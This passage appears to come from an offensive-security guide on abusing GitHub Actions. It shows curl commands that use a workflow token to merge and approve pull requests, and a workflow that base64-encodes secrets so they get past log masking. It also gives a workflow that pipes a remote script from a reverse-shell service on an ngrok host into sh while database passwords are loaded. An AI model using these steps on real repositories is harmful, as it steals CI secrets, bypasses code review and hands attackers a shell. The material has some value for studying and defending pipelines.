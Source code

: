 You can see the possible **permissions** of this token in: [https://docs.github.com/en/actions/security-guides/automatic-token-authentication#permissions-for-the-github\_token](https://docs.github.com/en/actions/security-guides/automatic-token-authentication#permissions-for-the-github\_token)

These tokens looks like this: `ghs_veaxARUji7EXszBMbhkr4Nz2dYz0sqkeiur7`

Some interesting things you can do with this token:

```bash
# Merge PR
curl -X PUT
    https://api.github.com/repos/<org_name>/<repo_name>/pulls/<pr_number>/merge \
    -H "Accept: application/vnd.github.v3+json" \
    --header "authorization: Bearer $GITHUB_TOKEN" \
    --header 'content-type: application/json' \
    -d '{"commit_title":"commit_title"}'

# Approve a PR
curl -X POST
    https://api.github.com/repos/<org_name>/<repo_name>/pulls/<pr_number>/reviews \
    -H "Accept: application/vnd.github.v3+json" \
    --header "authorization: Bearer $GITHUB_TOKEN" \
    --header 'content-type: application/json' \
    -d '{"event":"APPROVE"}'
```

{% hint style="danger" %}
Note that in several occasions you will be able to find **github user tokens inside Github Actions envs or in the secrets**. These tokens may give you more privileges over the repository and organization.
{% endhint %}

#### List secrets in Github Action output

```yaml
name: list_env
on:
  workflow_dispatch:
jobs:     
  List_env:
    runs-on: ubuntu-latest
    steps:
      - name: List Env
        # Need to base64 encode or github will change the secret value for "***"
        run: sh -c 'env | grep "secret_" | base64 -w0'
        env:
          secret_myql_pass: ${{secrets.MYSQL_PASSWORD}}
          secret_postgress_pass: ${{secrets.POSTGRESS_PASSWORDyaml}}
```

#### Get reverse shell with secrets

```yaml
name: revshell
on:
  workflow_dispatch:
jobs:     
  create_pull_request:
    runs-on: ubuntu-latest
    steps:
      - name: Get Rev Shell
        run: sh -c 'curl https://reverse-shell.sh/2.tcp.ngrok.io:15217 | sh'
        env:
          secret_myql_pass: ${{secrets.MYSQL_PASSWORD}}
          secret_postgress_pass: ${{secrets.POSTGRESS_PASSWORDyaml}}
```
